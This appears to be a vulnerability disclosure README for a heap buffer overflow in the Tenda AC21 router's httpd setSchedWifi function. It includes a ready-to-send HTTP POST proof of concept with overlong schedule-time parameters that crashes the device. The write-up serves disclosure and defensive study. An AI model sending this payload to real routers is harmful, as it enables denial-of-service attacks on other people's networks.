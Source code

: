 # Tenda AC21(V16.03.08.15) contains heap Buffer Overflow Vulnerability

## overview

- Manufacturer's website information：https://www.tenda.com.cn/
- Firmware download address: https://www.tenda.com.cn/download/detail-3419.html

## product information

Tenda A21(V16.03.08.15), latest version of simulation overview：

![image-20220902192028747](readme.assets/image-20220902192028747.png)

## description

### 1. Vulnerability Details

Tenda AC21(V16.03.08.15) contains a heap overflow vulnerability in file `/bin/httpd`, function`setSchedWifi ` .

This vulnerability allows attackers to cause a Denial of Service (DoS) via the  `schedStartTime`and ` schedEndTime`parameter.

![image-20220902194852710](readme.assets/image-20220902194852710.png)

the `strcpy(ptr+2, v8)` and `strcpy(ptr+10, v7)` copies strings to heap buffer without checking its length, so there is a heap overflow. 

### 2. Recurring loopholes and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/openSchedWifi HTTP/1.1
Host: 192.168.0.1
Content-Length: 224
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/system_time.html?random=0.9865714904007963&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close

schedStartTime=1111111111111111111111111111111111111111111111111111111111111111111111111111111&schedEndTime=111111111111111111111111111111111111111111111111111111111111111111111111111111111111111&schedWifiEnable=1&timeType=1
```

By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![image-20220902194915403](readme.assets/image-20220902194915403.png)